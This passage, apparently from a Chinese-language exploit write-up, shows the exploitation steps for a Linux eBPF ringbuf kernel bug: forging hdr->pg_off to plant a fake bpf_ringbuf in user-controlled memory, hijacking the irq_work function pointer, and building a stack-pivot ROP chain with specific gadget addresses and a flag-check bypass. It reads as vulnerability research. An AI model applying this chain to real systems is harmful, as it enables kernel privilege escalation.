 ```
    bpf_ringbuf_discard
        bpf_ringbuf_commit
           struct buf_ringbuf *rb = bpf_ringbuf_restore_from_rec(hdr);
                    unsigned long off = (unsigned long)hdr->pg_off << PAGE_SHIFT;
                    return (void*)((addr & PAGE_MASK) - off);
        
```

### 通过第二块buf，篡改第一块buf的`hdr->len`  

从上面ringbuf的内存布局知道，第一块buf也就是data到`consumer_pos`相差的页是2个，到到这里可以将第一块buf的`hdr->pg_off`改写成2，这样在bpf_ringbuf_commit函数中，从buf的hdr计算ringbuf时，计算出的ringbug就是用户空间完全控制的内存 - `consumer_pos`内存页。`consumer_pos`这页内存就充当了fake bpf_ringbuf。  

再看`struct bpf_ringbuf`结构，含有一个irq_work的结构work，其中func是一个函数指针。只要将`fake bpf_ringbuf`的func改成ROP就可以执行任意代码。  
```
 struct irq_work {
    struct __call_single_node node;
    void (*func)(struct irq_work *);
    struct rcuwait irqwait;
};

```
    
### ROP构造
  
func在`bpf_ringbuf`结构的0x28偏移处，前面已将ringbuf调整到`consumer_pos`处，只要将consumer_pos+0x28设置成stack pivot ROP, 当func执行到时，就可以运行ROP控制执行流。  
  
我在自己编译的vmlinux中没有找到像原POC中那么理想的stack pivot ROP
```push rbx ; sbb byte ptr [rbx + 0x41], bl ; pop rsp ; pop r13 ; pop r14 ; pop r15 ; pop rbp ; ret```
  
在func执行时`irq_work_queue(&rb->work)`, rbx/rdi都是work的地址，也就是ringbuf+0x18
```
(gdb) p/x (int)&(((struct bpf_ringbuf*)0)->work)
$2 = 0x18
```

stack pivot rop 未找到rsp设置成功后避开+0x20的rop，只找到0xffffffff8225c149，这个gadget执行完后，rsp调整到0x20处。
```
 0xffffffff8225c149 <inet_diag_msg_common_fill+105>:  push   %rbx
   0xffffffff8225c14a <inet_diag_msg_common_fill+106>:  and    %bl,0x41(%rbx)
   0xffffffff8225c14d <inet_diag_msg_common_fill+109>:  pop    %rsp
   0xffffffff8225c14e <inet_diag_msg_common_fill+110>:  pop    %rbp
   0xffffffff8225c14f <inet_diag_msg_common_fill+111>:  ret
```
  
+0x20处设置为别的gadget后发现不能触发，+0x20处是`bpf_ringbuf.work.node.a_flags`, 此处设为0xffff时，没有触发bug，既无crash也未成功，设置为0xff22时，panic报出异常地址0xff22, 这说明最低位设为0x22可绕过, 实际上`irq_work_claim`有flag检查` if (oflags & IRQ_WORK_PENDING)`, 选择地址地末位是0x22的rop - 0xffffffff820df722:  
```pop r13, pop r14, pop rbp, ret```

```
(gdb) p/x (int)&(((struct bpf_ringbuf*)0)->work.node.a_flags)
$4 = 0x20
0x22 == CSD_TYPE_IRQ_WORK(0x20) | IRQ_WORK_BUSY (0x02);
IRQ_WORK_PENDING = 0x1
